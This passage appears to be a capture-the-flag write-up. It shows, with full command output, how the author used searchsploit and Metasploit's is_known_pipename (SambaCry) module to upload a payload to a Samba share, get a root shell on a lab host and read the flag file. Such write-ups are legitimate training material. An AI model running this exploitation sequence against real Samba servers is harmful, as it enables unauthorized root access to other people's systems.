 ```bash
root@ubuntu:~/defcon# searchsploit Samba 4.6
--------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                   |  Path
                                                                                 | (/usr/share/exploitdb/)
--------------------------------------------------------------------------------- ----------------------------------------
Samba 3.5.0 < 4.4.14/4.5.10/4.6.4 - 'is_known_pipename()' Arbitrary Module Load  | exploits/linux/remote/42084.rb
--------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
root@ubuntu:~/defcon# 
```
Since I was already in metasploit I could see the exploit has msf module:
```bash
meterpreter > background
[*] Backgrounding session 8...
msf5 exploit(multi/handler) > search is_known_pipename

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/linux/samba/is_known_pipename  2017-03-24       excellent  Yes    Samba is_known_pipename() Arbitrary Module Load


msf5 exploit(multi/handler) > 
```
I then selected that exploit module, supplied all the necessary options, ran it, and got root shell on the samba host:
```bash
msf5 exploit(multi/handler) > use exploit/linux/samba/is_known_pipename
[*] No payload configured, defaulting to cmd/unix/interact
msf5 exploit(linux/samba/is_known_pipename) > set RHOSTS 10.24.13.10
msf5 exploit(linux/samba/is_known_pipename) > set SMB_SHARE_NAME myshare
msf5 exploit(linux/samba/is_known_pipename) > set SMB_FOLDER rh0x01
msf5 exploit(linux/samba/is_known_pipename) > run

[*] 10.24.13.10:445 - Using location \\10.24.13.10\myshare\ for the path
[*] 10.24.13.10:445 - Retrieving the remote path of the share 'myshare'
[*] 10.24.13.10:445 - Share 'myshare' has server-side path '/home/share
[*] 10.24.13.10:445 - Uploaded payload to \\10.24.13.10\myshare\oEXappTq.so
[*] 10.24.13.10:445 - Loading the payload from server-side path /home/share/oEXappTq.so using \\PIPE\/home/share/oEXappTq.so...
[-] 10.24.13.10:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 10.24.13.10:445 - Loading the payload from server-side path /home/share/oEXappTq.so using /home/share/oEXappTq.so...
[+] 10.24.13.10:445 - Probe response indicates the interactive payload was loaded...
[*] Found shell.
[*] Command shell session 10 opened (10.24.13.73:54362 -> 10.24.13.10:445) at 2020-08-10 11:09:53 +0000

id
uid=0(root) gid=0(root) groups=0(root)
ls -l /flag.txt
-rw-r--r-- 1 root root 23 Jun 16 11:08 /flag.txt

```
The flag was sitting on /flag.txt.
